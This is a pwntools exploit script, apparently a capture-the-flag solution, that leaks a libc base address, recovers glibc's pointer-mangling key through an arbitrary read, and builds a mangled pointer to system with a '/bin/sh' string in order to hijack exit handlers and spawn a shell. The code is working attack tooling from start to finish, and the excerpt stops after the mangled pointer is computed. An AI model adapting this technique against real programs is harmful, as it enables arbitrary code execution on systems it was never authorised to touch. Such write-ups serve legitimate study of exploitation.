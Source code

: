 ```python

if local:
    p=process("./"+binary_name)
    libc=ELF("./"+libc_name)
else:
    p=remote('',)
    e=ELF("./"+binary_name)
    libc=ELF("./"+libc_name)

def z(a=''):
    if local:
        gdb.attach(p,a)
        if a=='':
            raw_input
    else:
        pass

ru=lambda x:p.recvuntil(x)
sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sa=lambda a,b:p.sendafter(a,b)
sla=lambda a,b:p.sendlineafter(a,b)
ia=lambda :p.interactive()

def leak_address():
    if(context.arch=='i386'):
        return u32(p.recv(4))
    else :
        return u64(p.recv(6).ljust(8,'\x00'))

def ROR(i,index):
    tmp = bin(i)[2:].rjust(64,"0")
    for _ in range(index):
        tmp = tmp[-1] + tmp[:-1]
    return int(tmp, 2)

def ROL(i,index):
    tmp = bin(i)[2:].rjust(64, "0")
    for _ in range(index):
        tmp = tmp[1:] + tmp[0]
    return int(tmp, 2)

ru('Gift: ')
libc_base = int(p.recvline()[:-1],16)-libc.sym['alarm']
print(hex(libc_base))

initial = libc_base+0x3c5c40
ptr = initial + 0x18
dl_fini=libc_base+0x3daaf0

sa('where to read?:',p64(ptr))
ru('data: ')
encode = u64(p.recv(8))
encode_1 = ROR(encode,0x11)
key = dl_fini ^ encode_1
print(hex(key))

exit_funcs=libc_base+0x3c45f8
system = libc_base + libc.sym['system']
binsh = libc_base + libc.search(b'/bin/sh').__next__()

encode_system = key ^ system
encode_system = ROL(encode_system,0x11)
```